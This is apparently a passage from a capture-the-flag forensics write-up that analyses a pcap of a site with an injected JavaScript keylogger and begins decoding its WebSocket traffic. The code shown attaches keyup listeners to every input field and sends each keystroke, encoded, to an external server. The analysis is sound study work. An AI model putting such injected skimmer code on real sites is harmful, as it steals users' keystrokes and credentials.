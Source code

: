 ```js
    var message = navigator.userAgent;
    ws.send(encode(message, key));
    key2 = key.split("");
    shuffle(key2, rand(hash(message)));
    key2 = key2.join("");
  });

  Array.from(document.getElementsByTagName("input")).forEach(function(e) {
    e.addEventListener("keyup", function(v) {
      ws.send(encode(Math.random().toString().slice(2) + " " + v.key, key2));
    }, false);
  });

}, false);


```

We can see that communication *client-server* is encoded (`ws.send(encode(message, key))`) using two keys `key` and `key2`. Initially, our key is equal to `MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` and then after some _shuffling_ it transforms to `key2`. Also, the first message sent via `sockets` is just client's `User-Agent` value, which is also used to transform the `key`. 

`User-Agent` is not a secret, because we can easily fetch it from `HTTP headers`.

> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36

To confirm that encode function returns the same encoded message as unmasked packet from `Wireshark` I evaluated `encode()` function with `User-Agent` value as the message and `MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp` as the key. As expected, the trial has succeeded.

> WebSocket: T4N8jgYZ5ChvnMJyKyAPCvwAcAmjAhVLt12DeE6SXJQxKsXyv3HL2xKXgASRLHpkDDYRxYQVJt1rNGH6KxyWkkK2gQep84LG33j5N1fzFaxDeXmKfcargKYanYq66KKs9U2XTWEerSwBMCPbsj7faMHQzSkNH

By looking at functions `hash`, `rand` and `shuffle` we see that there is no any randomization made or any desire of reversing them. So, I just use them to generate they transformed key `key2`. 

The attacker attached a *keylogger* on every input on the site, which is sending each pressed by user key to external server as an encoded message in form of `ws.send("{random} {input_key}", key2)`. 

I searched for `WebSockets` packets in `Wireshark` and I noticed that there are packets of three lengths: *~219*, *~60*, *~85*. First ones are encoded `User-Agent messages`, second - `pings` and the last ones are the ones I need - `user input`.

![websocket]

I dumped those packets into [sockets.txt]


### Decoding

In order to solve the task, we would like to decode at least the last character of the message. As mentioned already, we don't need to reverse anything except the function `encode(msg, key)`. Let's have a closer look at it with removing unused parts.


[websocket]: <./files/websocket.png>
[packets]: <./files/packets.png>
[sockets.txt]: <./sockets.txt>
[logger.pcap]: <./files/logger.pcap>
[decoded]: <./files/decoded.png>
[credentials]: <./files/credentials.png>
[bundle.js]: <./files/bundle.js>
[injected.js]: <./injected.js>
[decoder.js]: <./decoder.js>
[decoder.html]: <./decoder.html>